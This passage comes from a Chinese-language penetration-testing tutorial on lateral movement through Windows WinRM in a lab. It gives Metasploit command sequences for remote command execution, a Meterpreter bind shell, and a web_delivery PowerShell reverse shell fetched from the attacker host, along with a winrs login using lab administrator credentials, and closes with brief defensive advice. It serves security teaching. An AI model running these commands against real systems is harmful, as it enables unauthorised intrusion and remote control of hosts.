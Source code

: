 如上图所示当前管理员凭据对目标主机 Windows Server 2012 是有效的。确定凭据有效后，我们开始尝试对目标主机 Windows Server
2012 执行命令。

•`auxiliary/scanner/winrm/winrm_cmd`

该模块可以通过 WinRM 服务对远程主机执行任意命令，该模块需要有管理员权限的凭据。

    
    
    use auxiliary/scanner/winrm/winrm_cmdset rhosts 192.168.93.30set DOMAIN whoamianonyset USERNAME administratorset PASSWORD Whoami2021set CMD ipconfig    # 设置需要执行的命令run

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915145643.png)image-20210804210518981

•`exploit/windows/winrm/winrm_script_exec`

该模块将尝试修改 PowerShell 执行策略以允许执行未签名的脚本，然后将 PowerShell 脚本写入磁盘并自动执行以返回一个
Meterpreter 会话。

    
    
    use exploit/windows/winrm/winrm_script_execset rhosts 192.168.93.30set DOMAIN whoamianonyset USERNAME administratorset PASSWORD Whoami2021set payload windows/meterpreter/bind_tcpset rhost 192.168.93.30set lport 4444exploit

执行后，如攻击成功，则可获得一个目标主机的 Meterpreter 会话。我这里在本地测试的时候没有成功不知道为什么。

### 借助 Web_delivery 模块

首先我们使用 Web_delivery 模块在攻击机上开启 Web 服务托管 Payload：

    
    
    use exploit/multi/script/web_deliveryset target 2# 选择使用powershell类型的payloadset payload windows/x64/meterpreter/reverse_tcpset lhost 192.168.93.129set lport 4444exploit

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915145645.png)image-20210804223331035

然后再在 Windows 10 的 Meterpreter Shell 中通过 winrs 对 Windows Server 2012 执行命令，获取一个
交互的 Shell：

    
    
    winrs -r:http://192.168.93.30:5985 -u:administrator -p:Whoami2021 cmd

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915145646.png)image-20210804222907058

然后在 Windows Server 2012 的 Shell 中执行 Web_delivery 模块生成的 PowerShell 命令即可上线：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915145648.png)image-20210804223743878

## 对于 WinRM 横向移动的防御

对于防御来自 WinRM 的横向移动，我们可以考虑以下两个方面。

•设置主机白名单，仅允许某些可信的计算机连接到 WinRM 服务器。•严格限制，确保仅允许本地管理组和 `WinRMRemoteWMIUsers__`
组中的用户有权使用 WinRM。•......

## Ending......
